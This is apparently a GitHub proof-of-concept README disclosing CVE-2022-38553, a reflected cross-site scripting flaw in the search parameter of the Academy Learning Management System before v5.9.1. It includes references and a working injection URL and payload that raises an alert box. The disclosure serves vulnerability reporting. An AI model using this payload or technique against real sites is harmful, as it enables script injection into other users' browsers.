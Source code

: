 # CVE-2022-38553
CROSS SITE SCRIPTING (XSS) ON "ACADEMY LEARNING MANAGEMENT SYSTEM" < v5.9.1 - PROOF OF CONCEPT (POC) CVE-2022-38553

Exploit Title: ACADEMY LEARNING MANAGEMENT SYSTEM < v5.9.1 - Cross Site Scripting (XSS) <br/>
CVE ID: CVE-2022-38553<br/>
Exploit Author: 4websecurity<br/>
Author's webpage: https://4websecurity.com<br/>
Date: 16-08-2022<br/>
Vendor Homepage: https://creativeitem.com<br/>
Version: up to 5.9.1<br/>
Vendor Demo page: https://demo.creativeitem.com/academy/home/<br/>

Reference:<br/>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-38553<br/>
https://www.openbugbounty.org/reports/2849933/<br/>
https://cve.report/CVE-2022-38553<br/>
https://nvd.nist.gov/vuln/detail/CVE-2022-38553<br/>
https://youtu.be/yFiZffHoeKs<br/>

Vulnerability field:<br/>
- Search parameter (search?query)<br/>

Cross-site scripting (XSS) vulnerability in ACADEMY LEARNING MANAGEMENT SYSTEM <5.9.1 allows remote attackers to inject arbitrary web script or HTML via the search?query parameter.<br/>


Proof Of Concept (POC):<br/>
https://example.com/search?query=%22%3E%3Cscript%3Ealert(%22XSS%22)%3C/script%3E<br/>

Payload:<br/> 
"><script>alert("XSS")</script><br/>

POC VIDEO:<br/>
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/yFiZffHoeKs/0.jpg)](https://www.youtube.com/watch?v=yFiZffHoeKs)<br/>

Security Risk:<br/>
This security vulnerability allows to execute arbitrary JavaScript code in user browser if they access URL prepared by attackers.
